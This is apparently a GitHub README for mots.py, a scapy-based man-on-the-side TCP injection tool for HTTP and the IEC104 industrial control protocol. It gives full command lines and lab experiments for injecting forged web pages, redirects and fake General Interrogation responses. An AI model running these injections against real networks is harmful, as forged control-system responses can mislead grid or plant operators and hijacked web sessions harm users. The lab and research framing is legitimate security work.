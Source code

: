 # Man-on-the-Side Attack TCP Injection; HTTP and IEC104

`mots.py` is script that monitors for a trigger, then injects TCP segments. Currently supports HTTP and IEC104. 

[![mots running](mots.gif)](https://raw.githubusercontent.com/PMaynard/mots/master/mots.gif)

# Usage

Requires the following runtime dependencies: 

- Python2
	- scapy
	- binascii
	- netifaces
	- sys
	- optparse

## HTTP

As a privileged user run the following command to inject a HTTP payload, when a `GET /` request is seen.   

	python mots.py -l ens8 -i ens3 -b 'host 10.50.50.97' -r 'GET /' -d payload/http.dat

This listens on interface `ens8`, injects the response using interface `ens3`, uses a Berkeley packet filter (BPF) of `host 10.50.50.97`, and triggers on the string value of 'GET /'. Finally, it reads the contents of `payload/http.dat` that is inserted into the payload.   


## IEC 60870-5-104

As a privileged user run the following command to inject IEC104 payload, when General Interrogation (GI) is seen.   

	python mots.py -l ens8 -i ens3 -b 'port 2404' -r '0x64010701010000000014' -d payload/iec104.dat

This listens on interface `ens8`, injects the response using interface `ens3`, uses a Berkeley packet filter (BPF) of `port 2404`, and triggers on the hex value of the IEC104 GI request `0x64010701010000000014`. Finally, it reads the contents of `payload/iec104.dat` that is inserted into the payload.   

# Payloads

The script will cache the payloads in memory, you will need to restart the script to get any changes.

- http.dat: Injects a simple `PWD` page. 
- http-301.dat: HTTP 301 redirect to example.com.
- iec104.dat: Contains a captured response from WinPP104. (single-point, double-points, and step-position information)
- iec104-two-step-position.dat: Contains two step position. 

# Packet Captures

This repository contains a number of packet captures, showing injections attacks on both protocols.

## Experiment One: HTTP Inject Response Page

- Attacker (.95): `python mots.py -l ens8 -i ens3 -b 'src host 10.50.50.96 and dst host 10.50.50.97' -r 'GET /' -d data/http.dat`
- victim (.96): `links http://10.50.50.97`
- Server (.97: `tc qdisc add dev ens3 root netem delay 500ms`; nginx running
- PCAP: EXP01-http-inject-page.pcapng

First GET: Normal victim -> Links Server
Second GET: Attacker runs mots.py as above (Injected packet ID: 22671 response to 42744)

## Experiment Two: HTTP Inject Redirect

- Attacker (.95): `python mots.py -l ens8 -i ens3 -b 'src host 10.50.50.96 and dst host 10.50.50.97' -r 'GET /' -d data/http-dat.dat`
- victim (.96): `links http://10.50.50.97`
- Server (.97: `tc qdisc add dev ens3 root netem delay 500ms`; nginx running
- PCAP: EXP02-http-inject-redirect.pcapng

First GET: Normal victim -> Links Server
Second GET: mot-01 runs above (Injected packet ID: 24068 response to 117)

## Experiment Three: IEC104 Inject Default Response

- HMI (.103): QTester104
- PLC: (.99) Winpp104 and clumsy set to 500ms lag.
- HMI (.103): `python mots.py -l ens8 -i ens3 -b 'port 2404' -r '0x64010701010000000014' -d data/iec104.dat`
	- Injected packet ID 35836 shuting down.
- Qtester104 performs GI
- PCAP: EXP03-iec104-inject-default-response.pcapng

## Experiment Four: IEC104 Inject Two Single Value Response

- HMI (.103): QTester104
- PLC: (.99) Winpp104 and clumsy set to 500ms lag.
- HMI (.103): `python mots.py -l ens8 -i ens3 -b 'port 2404' -r '0x64010701010000000014' -d data/iec104-two-single-points.dat`
	- Injected packet ID 21672 shuting down.
- Qtester104 performs GI
- PCAP: EXP04-iec104-inject-two-single-value-response.pcapng

# Alternative 

## Implementations

- https://github.com/fox-it/quantuminsert/tree/master/poc/
- https://github.com/stealth/QI
- https://github.com/kevinkoo001/MotS

## Spoofing Tools

- https://linux.die.net/man/8/packit
- http://nemesis.sourceforge.net/
